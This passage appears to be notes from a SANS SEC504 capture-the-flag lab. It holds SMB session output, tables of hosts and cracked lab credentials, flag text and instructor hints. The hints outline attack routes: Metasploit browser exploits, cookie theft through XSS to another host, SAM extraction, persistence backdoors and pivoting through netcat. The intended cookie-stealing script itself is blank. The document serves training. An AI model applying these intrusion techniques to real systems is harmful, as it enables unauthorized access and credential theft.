Domain=[WILMA] OS=[Windows Server 2008 R2 Standard 7600] Server=[Windows Server 2008 R2 Standard 6.1]
smb: \&gt; dir
  $Recycle.Bin                      DHS        0  Mon Jul 13 22:34:39 2009
  Documents and Settings            DHS        0  Tue Jul 14 01:06:44 2009
  firefox                             D        0  Sun May  5 10:49:19 2013
  flag2.txt                          AR       67  Sun May  5 11:58:08 2013
  inetpub                             D        0  Wed Jun 22 13:07:38 2011
  lads.exe                           AR    60416  Fri May 30 04:21:00 2003
  msizap.exe                          A    94720  Sun Feb 18 00:31:38 2007
  pagefile.sys                      AHS 4294500352  Mon Apr 15 13:20:32 2019
  PerfLogs                            D        0  Mon Jul 13 23:20:08 2009
  Program Files                      DR        0  Tue Oct 17 17:24:23 2017
  Program Files (x86)                DR        0  Sun May  5 06:50:28 2013
  ProgramData                        DH        0  Wed May 12 16:23:30 2010
  Recovery                          DHS        0  Wed May 12 17:14:49 2010
  System Volume Information         DHS        0  Wed May 12 17:11:40 2010
  Users                              DR        0  Tue Jun 11 15:55:02 2013
  Windows                             D        0  Tue Oct 17 17:26:28 2017

		48947 blocks of size 524288. 26614 blocks available
smb: \&gt; get flag2.txt
getting file \flag2.txt of size 67 as flag2.txt (65.4 kb/s) (average 65.4 kb/s)
smb: \&gt; exit
[bob@fred ~]$ cat flag2.txt 
Analyze the nc4 program from the course DVD in the Linux directory.[bob@fred ~]$ 
</pre>

YAAAASSSSS!!!!!

##### Exploit 10.10.10.15 Notes

+ susan/passwor8 grants SMB access to `C` share

| IP Address | Hostname | OS | Ports Open | Ports Filtered | Notes |
| --- | --- | --- | --- | --- | --- |
| 10.10.10.9 | BETTY | Windows 2003 3790 SP2/ 5.2 | 80, 135, 139, 445, 1025, 5800 | | SMB Exposed is VBAD |
| 10.10.10.15 | WILMA | Windows? | 80, 49152-49157 | 135, 139, 445 | |
| 10.10.10.35 | BARNEY | Linux/Fedora | 22, 23, 80, 111, 443, 513, 514 | |
| 10.10.10.45 | FRED | Linux/Fedora | 21, 22, 53, 80, 111, 443, 513, 514 | | |

| Username | Password | Host     | Confirmed? |
| -------- | -------- | ----     | ---------- |
| falken   | joshua   | BETTY    | yes        |
| peaches  | peaches1 | BETTY    | yes        |
| mike     | poor     | BETTY    | yes        |
| paul     | dirt33   | BETTY    | yes        |
| susan    | ??????   | BETTY    | no         |
| admin    | ??????   | BETTY    | no         |
| Administrator | ??????   | BETTY    | no         |
| SUPPORT_388945a0 | ??????   | BETTY    | no         |
| IUSR_WILMA | ??????   | BETTY    | no         |
| IWAM_WILMA  | ??????   | BETTY    | no         |
| falken | joshua | FRED | yes |
| bob | nuggetnugget | FRED | yes |
| bob | nuggetnugget | BARNEY | yes |
| susan | passwor8 | WILMA | yes |

#### Flags

##### Flag 1

<pre>
C:\>type flag1.txt
type flag1.txt

The phrase that pays is located in several places throughout this room.  
Each flag gives you instructions for finding the phrase.

You will also need the Hydan steganography tool from the course USB.
Follow the directions in the README file.  Read them carefully.  

Follow the instructions in the flags exactly.  
If you follow the instructions exactly, the memory errors, seg faults, and garbage text will go away.
</pre>

##### Flag 2

<pre>
[bob@fred ~]$ cat flag2.txt 
Analyze the nc4 program from the course DVD in the Linux 
</pre>

##### Flag 3

<pre>
[root@barney tmp]# cat /flag3.txt 
first half of password = sooper
</pre>

##### Flag 4

<pre>
[root@fred ~]# cat /flag4.txt
second half of password = secret
</pre>

##### CTF Secret

<pre>
sec504@slingshot:~$ locate nc4
/home/sec504/tools/nc4
/usr/local/go/test/func4.go
/usr/share/bash-completion/completions/xvnc4viewer
/usr/share/go-1.6/test/func4.go
sec504@slingshot:~$ cd /home/sec504/tools/
sec504@slingshot:~/tools$ ls
504_arp_ex  Enterprise_Lab    hydan         nc4
504_DoS_ex  history_exercise  hydan-decode  suterusu
sec504@slingshot:~/tools$ ./hydan-decode nc4
Password: 
Welcome to the virtual world!
</pre>

#### Other Attack Opportunities

@Chris Dale:

> The browser on 15 is exploitable with Metasploit and will give you flag 2.

> You can also get the  adminfun.php page by enumerating the cookie value with a script. The entropy of the cookie is not very high.
The SAM file in C:\windows\repair will give the root password for 35

> also you can steal 15's cookie for 35 using the xss on 35.

> if you get falken's password you can connect to remote registry or remote services and enable RDP or pull out the password for VNC

> MS15-034 can be used as hearthbleed could and extract memory of the running webserver

> the FTP server on 35 I believe can be abused if you get into it with the BOB account ?

> bonusflag is on C:\flag2.txt:bonusflag.txt and is hinted with lads.exe being in the directory

> on 10.10.10.9 there's conviniently put netcat in the C:\ directory

> Susan doesn't have a password for 10.10.10.35 on telnet

> She also reuses password across all boxes and is an admin on 15 and has access to 45

> for the firefox 20 exploit I just set up the browser autopwn module of Metasploit and show them how easy it could be to get a shell on that box

> If you got e.g. meterpreter on .9 you could do "run persistence" and get a little backdoor account with RDP enabled

> the netcat on .9 could also be used to pivot SMB to .15 ^^ this is probably more complex than to just "Map network drive" or "Net use"

#### Speed Run Bonuses

Sometimes, there will already be a share mounted on 10.10.10.15 as `Z:`, left behind by another player. If this is the case, it is a simple task to change to this drive to enumerate files on the 10.10.10.15 system.

From the command prompt, enumerate SMB connections to and from other hosts on this system using `net use`:

<pre>
C:\>net use
net use
New connections will be remembered.

Status       Local     Remote                    Network

-------------------------------------------------------------------------------
Disconnected Y:        \\10.10.10.9\C$           Microsoft Windows Network
OK           Z:        \\10.10.10.15\C$          Microsoft Windows Network
The command completed successfully.

C:\>z:
z:

Z:\>dir
dir
 Volume in drive Z has no label.
 Volume Serial Number is 0422-A4FA

 Directory of Z:\

05/05/2013  10:49 AM    <DIR>          firefox
05/05/2013  11:58 AM                67 flag2.txt
06/22/2011  01:07 PM    <DIR>          inetpub
05/30/2003  04:21 AM            60,416 lads.exe
02/18/2007  01:31 AM            94,720 msizap.exe
07/13/2009  11:20 PM    <DIR>          PerfLogs
10/17/2017  05:24 PM    <DIR>          Program Files
05/05/2013  06:50 AM    <DIR>          Program Files (x86)
06/11/2013  03:55 PM    <DIR>          Users
10/17/2017  05:26 PM    <DIR>          Windows
               3 File(s)        155,203 bytes
               7 Dir(s)  13,933,326,336 bytes free

Z:\>type flag2.txt
type flag2.txt
Analyze the nc4 program from the course DVD in the Linux directory.
Z:\>
</pre>

  

### Random Clues from John

Hints for winning the game....

flag3.txt is the hardest flag to get.  flag3.txt is on 10.10.10.35.  There is
nothing on your course cd-rom to get you directly to root on 10.10.10.35

The bonus flag (bonusflag.txt) tells you how to get root on 10.10.10.35.  The
bonus flag is located on 10.10.10.15, but it is hidden.

You cannot access NetBIOS/SMB on 10.10.10.15 directly.  But you can access it
indirectly.

There is another way to win the game....

10.10.10.15 has a browser with a nice cookie

10.10.10.35 is vulnerable to XSS attacks

Here is a cookie-stealing browser script, that will pass a cookie to the
machine 10.10.75.68:

``

There is another way to win the game....

10.10.10.15 has a vulnerable browser, with a nice cookie

There is another way to win the game....

You have to find the honey to feed the bear.  The honey is a password file; the
bear is 10.10.10.35.
